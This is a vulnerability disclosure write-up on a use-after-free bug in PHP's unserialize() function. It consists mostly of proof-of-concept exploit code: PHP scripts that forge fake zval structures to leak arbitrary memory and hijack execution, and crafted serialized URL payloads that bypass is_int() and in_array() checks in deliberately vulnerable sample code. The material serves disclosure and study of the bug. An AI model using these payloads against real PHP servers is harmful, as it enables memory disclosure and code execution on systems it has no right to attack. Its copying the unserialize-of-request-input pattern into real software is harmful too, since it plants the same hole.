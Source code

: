 ### About PHP's unserialize() Function Use-After-Free Vulnerability
> Taoguang Chen <github.com/chtg> - 2015.1.24
 
i. Leak Arbitrary Memory
========

##### Overwrite an fake string ZVAL POC:
``` php
<?php

fake_zval();

$data = 'a:2:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:1;O:8:"stdClass":6:{i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";R:4;}}';

$x = unserialize($data);
$y = serialize($x);
var_dump($y);

function fake_zval()
{
	global $zval;

	$addr = 0x100000000;

	$zval = ptr2str($addr);           
	$zval .= ptr2str(0x400);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x06";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```
	
ii. Execute Arbitrary Code
========
 
### Overwrite an fake object ZVAL PoC:
``` php
<?php

fake_zval();

$data = 'a:7:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";O:8:"stdClass":2:{s:3:"ddd";a:2:{i:0;R:4;i:1;i:2;}s:3:"ddd";i:3;}}';

$x = unserialize($data);
var_dump($x);

function fake_zval()
{
	global $zval;

	$addr = 0x41414141;

	$zval = ptr2str($addr);
	$zval .= ptr2str(0x11223344);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x05";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```

iii. Bypass Syntax Logical
========

### Code sample 1:
``` php
	$data = unserialize($_GET['data']);
 
	if (is_int($data['ccc'])) {
		$ddd = 'ddd';
		$eee = 'eee';
		$fff = 'fff'.$_GET['fff'];
		$ggg = 'ggg';
		var_dump($data['ccc']);
	} else {
		echo 'fuck';
	}
```
 
Overwrite $data['ccc'] and bypass in_int()
 
PoC:
``` php
	foo.php?data=a:3:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;i:1;i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;s:3:"ccc";R:5;}&fff=ryat
	// Result: string(7) "fffryat"
```

Code sample 2:
``` php
	<?php
 
	$data = unserialize($_GET['data']);
 
	if (is_string($data['ccc']) && in_array($data['ccc'], array('ccc'))) {
		$ddd = 'ddd'.$_GET['ddd'];
		$eee = 'eee';
		var_dump($data['ccc']);
	} else {
		echo 'fuck';
	}
```
	
Overwrite $data['ccc'] and bypass in_array()
 
PoC:
 
	foo.php?data=a:4:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;s:3:"ccc";R:4;}&ddd=ryat
	// Result: string(7) "dddryat"
 
iv. Others?
========
 
v. Reference
========
https://bugs.php.net/bug.php?id=68594
 
EOF
========
